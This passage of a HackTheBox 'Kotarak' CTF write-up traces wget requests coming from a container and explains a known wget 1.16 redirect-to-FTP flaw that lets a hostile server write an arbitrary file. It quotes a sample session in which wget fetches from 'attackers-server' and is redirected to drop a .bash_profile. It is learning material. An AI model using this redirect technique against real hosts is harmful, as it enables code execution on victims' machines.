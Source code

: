 As no port is specified in the requests, we can conclude that it tries to access port 80, but we know that there is no web-server running on port 80 on this target.  


The client making these requests is coming from `10.0.3.133`, this is the subnet of our container at `10.0.3.0/24`. If we try to ping this host we get a response:

![ping-44](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Kotarak/img/ping-44.png)



So these requests must be coming from withing the container. 


We can also see that the user-agent used in the request is `wget 1.16`. If we search for exploits online we can find the [following RCE](https://www.exploit-db.com/exploits/40064) vulnerability on ExploitDB.


Here is a high-level overview of the vulnerability:


When `wget` is tasked with retriving a file, say `http://attackers-server/safe_file.txt`, the file will be saved as `safe_file.txt` in the working directory from which `wget` was invoked. 


If the `attackers-server` server responds with a 30X code, redirecting the `wget` client to an FTP server hosting a different file like `.bash_profile`, the  `wget` client will save the file as `.bash_profile` instead of the originally requested `safe_file.txt`, which translates to arbitrary file uploads.  


Here is a simple execution flow:

```bash
victim@trusty:~$ wget --version | head -n1
GNU Wget 1.17 built on linux-gnu.

victim@trusty:~$ pwd
/home/victim

victim@trusty:~$ ls
victim@trusty:~$   

victim@trusty:~$ wget http://attackers-server/safe-file.txt
Resolving attackers-server... 192.168.57.1
Connecting to attackers-server|192.168.57.1|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: ftp://192.168.57.1/.bash_profile [following]
           => â€˜.bash_profileâ€™
Connecting to 192.168.57.1:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> SIZE .bash_profile ... 55
==> PASV ... done.    ==> RETR .bash_profile ... done.
Length: 55 (unauthoritative)

```